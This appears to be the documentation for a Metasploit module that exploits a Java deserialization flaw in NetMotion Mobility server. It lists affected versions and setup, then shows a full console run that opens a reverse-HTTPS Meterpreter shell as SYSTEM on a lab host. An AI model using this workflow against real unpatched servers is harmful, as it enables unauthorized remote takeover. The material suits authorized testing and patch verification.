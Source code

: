 ## Vulnerable Application

### Description

This module exploits an unauthenticated Java deserialization in the
NetMotion Mobility server's `MvcUtil.valueStringToObject()` method, as
invoked through the `/mobility/Menu/isLoggedOn` endpoint, to execute
code as the `SYSTEM` account.

Mobility server versions 11.x before 11.73 and 12.x before 12.02 are
vulnerable. Tested against 12.01.09045 on Windows Server 2016.

### Setup

Follow the [Mobility System Administrator Guide - v12.0x], paying
particular attention to the [Basic System Requirements for All Server
Components]. I used the `Mobility_server_12.01_Win2016_release.exe`
installer.

[Mobility System Administrator Guide - v12.0x]:
https://help.netmotionsoftware.com/support/docs/MobilityXG/1200/help/mobilityhelp.htm

[Basic System Requirements for All Server Components]:
https://help.netmotionsoftware.com/support/docs/MobilityXG/1200/help/mobilityhelp.htm#page/Mobility%2520Server%2Fintro.01.09.html%23

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### NetMotion Mobility 12.01.09045 on Windows Server 2016

```
msf > use exploit/windows/http/netmotion_mobility_mvcutil_deserialization
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf exploit(windows/http/netmotion_mobility_mvcutil_deserialization) > options

Module options (exploit/windows/http/netmotion_mobility_mvcutil_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager


msf exploit(windows/http/netmotion_mobility_mvcutil_deserialization) > set rhosts 172.16.57.3
rhosts => 172.16.57.3
msf exploit(windows/http/netmotion_mobility_mvcutil_deserialization) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf exploit(windows/http/netmotion_mobility_mvcutil_deserialization) > run

[*] Started HTTPS reverse handler on https://172.16.57.1:8443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. NetMotion Mobility 12.01.09045 is unpatched.
[*] Executing windows/x64/meterpreter/reverse_https (PowerShell Stager)
[*] https://172.16.57.1:8443 handling request from 172.16.57.3; (UUID: s66tryd9) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (172.16.57.1:8443 -> 127.0.0.1) at 2021-07-08 21:25:22 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-MIUE6PRQH9F
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
